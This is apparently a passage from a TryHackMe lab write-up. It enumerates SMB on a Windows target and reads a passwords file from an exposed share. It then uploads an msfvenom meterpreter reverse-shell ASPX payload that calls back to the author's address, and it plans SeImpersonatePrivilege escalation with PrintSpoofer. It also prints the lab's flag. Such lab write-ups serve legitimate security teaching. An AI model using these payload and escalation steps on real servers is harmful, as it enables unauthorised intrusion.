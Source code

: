 ```bash
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-12-31T04:26:46-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-12-31T12:26:42
|_  start_date: 2023-12-31T12:20:09

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 265.81 seconds
```

And I got other 3 ports.

First thing that I am going to do is trying open the other web page:

Which is the same as the other.

Apart that this time I can enter the `nt4wrksv` directory that I have found in the samba share. (http://10.10.161.53:49663/nt4wrksv)

from the web page I can also access the passwords.txt file. (http://10.10.161.53:49663/nt4wrksv/passwords.txt)

And having the privilege to put file using smbclient I was able to open a reverse shell using:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp  LHOST=10.18.20.116 LPORT=4555 -f aspx -o rev.aspx
```

Putting it in the `nt4wrksv` shared folder, opening a listener inside metasploit, and navigate in that directory in the browser. (http://10.10.161.53:49663/nt4wrksv/rev.aspx)

So now I got a reverse shell.

```bash
getuid

Server username: IIS APPPOOL\DefaultAppPool
```

First of all I am going to retrieve the flag inside the Bob directory: `THM{fdk4ka34vk346ksxfr21tg789ktf45}`

Now that I am in I can see the privileges using `whoami /priv`.

I see that I the SeImpersonatePrivilege is Enabled. So I am going to exploit that. 

I will do it using `PrintSpoofer64.exe.`

Which is a tool that can exploit this vulnerability.

